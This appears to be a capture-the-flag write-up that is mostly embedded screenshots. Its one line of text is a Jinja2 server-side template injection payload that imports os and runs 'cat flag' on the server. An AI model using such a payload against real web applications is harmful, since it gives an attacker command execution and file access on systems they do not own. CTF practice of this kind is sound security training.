 <img width="623" height="291" alt="image" src="https://github.com/user-attachments/assets/95371d99-f5dd-4b47-9a1c-b0f69da84f2f" />
<img width="1073" height="318" alt="image" src="https://github.com/user-attachments/assets/f6684191-a4de-4b97-a1a9-3da985c17189" />
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}
<img width="1919" height="334" alt="image" src="https://github.com/user-attachments/assets/2d8d09fe-76cd-42f2-ae00-04a2a0a7300c" />
<img width="929" height="801" alt="image" src="https://github.com/user-attachments/assets/1e7fac76-8df3-46a8-9ba2-81a2c2e730df" />
<img width="376" height="261" alt="image" src="https://github.com/user-attachments/assets/ff33694d-a03b-4f5c-8450-f80db3f52d21" />
